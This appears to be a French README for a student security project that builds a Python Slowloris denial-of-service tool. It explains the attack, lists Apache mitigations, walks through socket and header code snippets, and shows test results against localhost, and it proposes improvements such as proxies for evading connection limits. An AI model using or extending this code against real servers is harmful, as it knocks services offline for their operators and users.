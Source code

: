 # Python pour la securite
  - ### [1. Introduction](#1-Introduction)
  - ### [2. Fonctionnement](#2-Fonctionnement)
  - ### [3. Resultat](#2-Resultat)
  - ### [4. Difficultees rencontrees](#4-Difficultees-rencontrees)
  - ### [5. Ameliorations](#5-Ameliorations)

---
## 1. Introduction

 L'attaque slow loris permet de faire un ddos sur un serveur en se servant que d'une seule machine. 
 Slowloris essaie de garder le maximum de connexions ouvertes avec le webserver cible et essaie de les garder ouvertes aussi longtemps que possible. 
 Dès que le slowloris a ouvert une connection il va garder la garder ouverte en envoyant des requêtes incomplètes qu'il va compléter lentement au fur et à mesure mais ne les finira jamais. 
 Les serveurs affectés verront leur nombre maximum de connections atteint et peuvent refuser les nouvelles connections d'utilisateurs.
Les serveurs majoritairement touchés par l'attaque slowloris sont:
- Apache 1.x and 2.x
- dhttpd
- Flask

Il existe des modules pour apache qui permetent de réduire la chance d'une attaque slowloris tel que: 
- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

Il existe d'autres méthodes pour se protéger tel qu'installer un:
- reverse proxy
- firewall
- load balancer
- content switches

Si aucune de ces solutions n'est envisageable il est toujours possible de placer son webserver derrière un nginx ou lighthttpd qui ne sont pas affectés par cette attaque.

---
## 2. Fonctionnement
Afin de faire fonctionner ce programme, il est necessaire d'installer certaines dependances. Les commandes a executer pour avoir un environnement d'execution sont les suivantes :
 * `virtualenv env`
 * `source env/bin/activate`
 * `pip install -r requirements.txt`


 Dans un premier temps, il est necessaire de recuperer le type de serveur que l'on souhaite attaquer : 
 * Par exemple, un serveur apache 1.x/2.x permettra une attaque optimal.
 * A contrario, attaquer un WebServeur tournant avec le framework NodeJS a partir de la version 8 est inutile

 Pour recuper le type de serveur, on envoie une requete get : </br>
 * `sock.send("GET / HTTP/1.1\r\n\r\n".encode("ascii"))`</br>

Puis on analyse le retour </br>
*  `HTTP/1.1 400 Bad Request
Date: Wed, 10 Jul 2019 16:18:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
`

Pour l'initialisation des sockets on envoie trois requêtes:
```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
Dans l'ordre:
- La première initialise la connection
- La deuxième envoie le user agent utilisé choisi aléatoirement dans la pool des user agents.
- La troisième dit quelles sont les langues acceptées.

-> A l'initialisation le slowloris va essayer d'initier autant de connections que l'on a demandé.

Il va ensuite les garder en vie en les complétant toutes les 15 secondes avec:
```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
Il va ensuite essayer à nouveau d'ouvrir des connections jusqu'à atteindre la limite que l'on a fixé.
 ```Python
 for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Par la suite le slowloris va calculer la latence en faisant une requête dans un thread à part.

```Python
if not latence.is_alive():
    latence.run()
```
---

## 3. Resultat
Les resultat ci dessous ont ete effectue sur un serveur Apache avec la configuration initiale.</br>
Le programme fut lance avec la commande suivante : `python src/main.py -a 127.0.0.1 -s 1000`


Dans un premier temps la console nous affiche que l'on se trouvre sur un seveur Apache, ce qui est parfait pour notre attaque : 
> `[127.0.0.1] server running with Apache, best configuartion for this attack`

Dans un second temps, on affiche la latence initial :
> `[Latency] -- 0.002142`

On remarque donc que le temps de latence est relativement faible. </br></br>
Ensuite on initialise le maximum de socket 
> `279 connections 1000 initialised`

On remarque ici que l'on a reussi a initialiser seulement 279 sockets sur les 1000 prevu, on essaie maintenant de les garder ouvertes le plus longtemps possible.

Apres 15 secondes, on essaie d'en recreer afin d'atteindre les 1000
> `try recreating sockets`

Apres 5 minutes, on peut voir que l'on a 408 sockets qui sont ouvertes
> ` 408 connections 1000 initialised `

On remarque aussi une latence de 15 secondes, preuve que le deni de service fonctionne.
> `[Latency] -- 15.80608   `

Apres 10 minutes, on stop le programme, on peut donc voir une latence moyenne de 14.7 secondes.
> `Average latency = 14.702567199999999`


---







## 4. Difficultees rencontrees
La principale difficultees fut d'ordre materiel, en essayant l'attaque sur un serveur distant, la box internet ma "banni", il etait impossible d'acceder a aucun site web en dehors, impossible d'utiliser un dns.

La seconde difficultee fut de comprendre que les serveur nodes n'etaient pas affectees. Le programme semblait fonctionel mais aucun ralentissement ne fut observé. Ensuite installer un serveur apache est un defi de taille.

Hormis cela, aucune difficultée majeures ne fut rencontrées.


## 5. Ameliorations
Les améliorations possibles sont nombreuses:
- Détection automatique du serveur et optimisation des paramètres.
- Détection automatique du timeout serveur pour les requêtes.
- Détection du nombre de connection maximum du serveur pour pouvoir choisir le niveau de ddos que l'on veut (un peu, beaucoup, moyen)
- Utilisation de proxy pour permettre d'ouvrir un plus grand nombre de connections quand il y a un nombre limité par utilisateur.
